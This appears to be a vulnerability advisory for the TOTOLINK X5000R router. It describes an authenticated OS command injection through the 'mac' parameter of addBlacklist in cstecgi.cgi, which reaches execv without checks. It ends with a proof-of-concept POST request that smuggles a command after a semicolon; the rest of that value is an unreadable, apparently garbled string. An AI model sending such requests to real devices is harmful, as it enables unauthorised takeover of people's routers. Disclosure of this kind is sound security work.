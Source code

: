 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `addBlacklist`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `addBlacklist` (at 0x4201cc) of binary /cgi-bin/cstecgi.cgi. The parameter `mac` is passed to `uci_add_List` without any check.
![addBlacklist](image.png)
uci_add_List passes the parameter `mac` as the fourth argument, which is in libcscommon.so.It can be observed that uci_add_List calls snprintf to format our param_4 into the string "uci -c %s add_list %s.%s.%s=\"%s\ ..." and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 189
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "addBlacklist", "mac": ";wzq^e^a\\aaeaa]aca\\caa]dadaacaaea]^de^a``aa^aa_e]a_bvzoaaca`a`]`aaa`c_a_ea]ae\\caacdaaaba_aaaaa^a_\\aawznwyps~qw|lx_caaaaaaa\\aaa_e`cb\\aaea^aaaeadaaaacdaaab_a\\acab"}
```
